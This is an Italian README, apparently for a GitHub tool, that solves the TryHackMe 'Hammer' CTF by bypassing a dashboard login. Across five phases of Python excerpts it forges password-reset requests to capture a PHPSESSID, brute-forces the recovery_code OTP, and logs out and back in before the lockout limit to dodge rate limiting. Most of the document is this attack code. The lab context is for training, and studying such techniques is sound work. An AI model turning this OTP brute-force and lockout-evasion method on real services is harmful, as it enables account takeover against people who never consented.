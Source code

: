 # CTF HAMMER ON THM Tool python creato per bypassare il login alla dashboard.
![pyOtpSimbolo](https://github.com/user-attachments/assets/3dc21905-1c08-4314-9160-a8513d93db72)
CTF HAMMER ON THM
Tool python creato per bypassare il login alla dashboard.

FASE 1:
    • Caricamento e convalida codici otp da file .txt
        ◦ otp.otp_from_txt(otp_txt)
            ▪ def is_otp(otp_code, len_code_ok):
                  n_char_code = len(otp_code)
                  if(n_char_code < len_code_ok or n_char_code > len_code_ok):
                      return False
                  else:
                      return True	


FASE 2:
    • Forgiatura richiesta pw reset 
        ◦ http_req_pwRst = forge.reset_pw_req(url_rst_pw)
            ▪ def reset_pw_req(url, email = None, session_id=None):
              …………………………….
              else:
                      headers = {
                          "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
                          "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                          "Accept-Language": "en-US,en;q=0.5",
                          "Accept-Encoding": "gzip, deflate, br",
                          "Connection": "keep-alive",
                      }
                  return {"url":url, "headers": headers}

    • Richiesta per pw reset, e recupero session_id 
        ◦ cookie = otp_req.do_request(http_req_pwRst)
            ▪ def do_request(http_req_pwRst, flag=None):
                  if(not flag):
                      response = requests.get(url=http_req_pwRst['url'], headers=http_req_pwRst['headers'])
              ……………………………………….
              return response.cookies.get_dict()['PHPSESSID']


FASE 3:
    • Forgiatura richiesta per pw reset, con email valida e cookie
        ◦ http_req_pwRst = forge.reset_pw_req(url_rst_pw, email_user, cookie)
            ▪ def reset_pw_req(url, email = None, session_id=None):
                  if(session_id):
                      headers = {
                          "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
                          "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                          "Accept-Language": "en-US,en;q=0.5",
                          "Accept-Encoding": "gzip, deflate, br",
                          "Connection": "keep-alive",
                          "Cookie": f"PHPSESSID={session_id}"
                      }
              data = {"email":email}
              return {"url":url, "headers": headers, "data":data}
              ………………………………..

    • Richiesta per pw reset, con email valida e cookie settato
        ◦ otp_req.do_request(http_req_pwRst, flag = "pw")
              elif(flag == "pw"):
                      #print("SEND PW RST")
                      response = requests.post(url=http_req_pwRst['url'], data=http_req_pwRst['data'], headers=http_req_pwRst['headers'])


FASE 4:
    • Forgiatura richiesta BruteForce, con url di inserimento otp, cookie e code
        ◦ code = otp_codes.pop(0)
        ◦ http_req_OTP = forge.otp_brute_req(url_otp, cookie, code)
            ▪ def otp_brute_req(url, session_id, otp_code):
                  headers = {
                      "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
                      "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                      "Accept-Language": "en-US,en;q=0.5",
                      "Accept-Encoding": "gzip, deflate, br",
                      "Connection": "keep-alive",
                      "Cookie": f"PHPSESSID={session_id}"
                  }
                  data = {"recovery_code": otp_code, "s":140}
                  return {"url":url, "headers": headers, "data":data}

    • Richiesta convalida otp, stringa di errore otp, otp e cookie settato
        ◦ Eseguita n volte, n < n_request lock out.
        ◦ otp_req.bruteOTP(http_req_OTP, error, cookie)
          def bruteOTP(http_req_otp, error, cookie):
                  response = requests.post(url=http_req_otp['url'], data=http_req_otp['data'], headers=http_req_otp['headers'])
                  if( not error in response.text):
                      exit(f"\nOTP TROVATO: {http_req_otp['data']} \n Cookie: {cookie}")


FASE 5:
    • Forgiatura richiesta logout, con url di logout e cookie settato
        ◦ logout_req = forge.logout_req(logout_path, cookie)
              def logout_req(url, session_id):
                  headers = {
                      "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0",
                      "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
                      "Accept-Language": "en-US,en;q=0.5",
                      "Accept-Encoding": "gzip, deflate, br",
                      "Connection": "keep-alive",
                      "Cookie": f"PHPSESSID={session_id}"
                  }
                  return {"url": url, "headers": headers}

    • Richiesta di logout
        ◦ logout_req = forge.logout_req(logout_path, cookie)
              otp_req.logout(logout_req)
                          n_requests = 0
                          print(f"RIMANGONO {len(otp_codes)} OTP DA TESTARE")

